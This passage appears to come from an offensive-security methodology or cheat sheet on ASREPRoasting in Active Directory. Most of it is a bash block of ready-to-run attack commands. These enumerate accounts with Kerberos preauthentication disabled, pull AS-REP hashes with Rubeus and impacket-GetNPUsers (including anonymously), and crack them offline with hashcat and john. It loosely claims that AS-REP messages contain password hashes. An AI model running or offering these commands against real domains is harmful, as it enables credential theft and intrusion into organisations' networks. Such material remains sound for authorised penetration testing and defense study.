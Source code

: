### **ASREPRoasting**

**What ASREPRoasting is:** Attack targeting user accounts with "Do not require Kerberos preauthentication" setting. Requests AS-REP messages without preauthentication, then cracks user passwords offline.

**Why ASREPRoasting works:** Some accounts have preauthentication disabled for compatibility reasons. AS-REP messages contain user password hashes that can be cracked offline.

```bash
# ASREPRoasting methodology

# Step 1: Identify ASREPRoastable users
# PowerShell enumeration
([adsisearcher]"(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))").FindAll() | ForEach-Object {$_.Properties.samaccountname}

# LDAP query for ASREPRoastable accounts
ldapsearch -x -H ldap://dc01.domain.local -D "domain\user" -w "password" -b "DC=domain,DC=local" "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" samAccountName

# Step 2: Request AS-REP messages
# Using Rubeus
.\Rubeus.exe asreproast                      # ASREPRoast all vulnerable users
.\Rubeus.exe asreproast /user:username       # Target specific user
.\Rubeus.exe asreproast /outfile:asrep.txt   # Save to file

# Using impacket-GetNPUsers (from Linux)
impacket-GetNPUsers domain.local/ -dc-ip 192.168.1.10 -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# Manual AS-REP request (advanced)
# Using custom PowerShell or C# code to request AS-REP without preauthentication

# Step 3: Crack AS-REP hashes
# Using hashcat
hashcat -m 18200 asrep.txt rockyou.txt       # Kerberos 5 AS-REP mode

# Using john the ripper
john --wordlist=rockyou.txt asrep.txt

# ASREPRoasting without credentials (anonymous)
# If anonymous LDAP access is allowed
impacket-GetNPUsers domain.local/ -dc-ip 192.168.1.10 -no-pass -usersfile users.txt

# Targeted ASREPRoasting
# Focus on high-privilege accounts that might have preauthentication disabled
# Check service accounts and administrative accounts

# Why ASREPRoasting is valuable:
# - Can be performed without domain credentials (if anonymous LDAP allowed)
# - Targets user accounts directly
# - Often overlooks by administrators
# - Provides another vector for credential acquisition
```
